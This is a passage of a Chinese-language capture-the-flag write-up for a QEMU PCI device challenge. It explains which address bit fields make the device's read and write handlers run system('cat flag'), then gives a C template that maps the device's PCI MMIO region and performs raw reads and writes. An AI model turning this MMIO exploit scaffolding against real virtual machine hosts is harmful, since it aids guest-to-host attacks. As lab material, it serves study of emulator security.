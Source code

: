 

对于 read 函数，我们很容易解析。首先 a1 肯定是结构体的指针我们不管，a2 则是我们读的地址（通过观察其他的 qemu pci 设备，或者对 read 的经验来说），其实还有应该一个 a3 用于表示大小，但是他没写，可能不需要吧）

![image-20250507025258616](https://oss.nova.gal/img/image-20250507025258616.png)

很简单，让我们读的地址的 `>> 20 & 0xf = 1`，`>> 16 & 0xf = 0xf` 即可把 vnctf 拷贝到一个地址上



对于 write 函数，这个也是很简单了。我们显然要在 read 操作完之后 write 两次，第一次让 `a2 >> 20 & 0xf = 1`，第二次再让 `a2 >> 20 & 0xf = 2，a2 >> 16 & 0xf == 0xf`，就能执行 `system("cat flag")`

![image-20250507025803578](https://oss.nova.gal/img/image-20250507025803578.png)



对于 exp，我们先把模板搬过来，然后看看它的写法。

```c
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include<sys/io.h>
unsigned char* mmio_mem;

void die(const char* msg)
{
    perror(msg);
    exit(-1);
}

void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t*)(mmio_mem + addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem + addr));
}

int main(int argc, char *argv[])
{

    // Open and map I/O memory for the strng device
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

    printf("mmio_mem @ %p\n", mmio_mem);

    mmio_read(0x100);
    mmio_write(0x100, 1337);
}
```
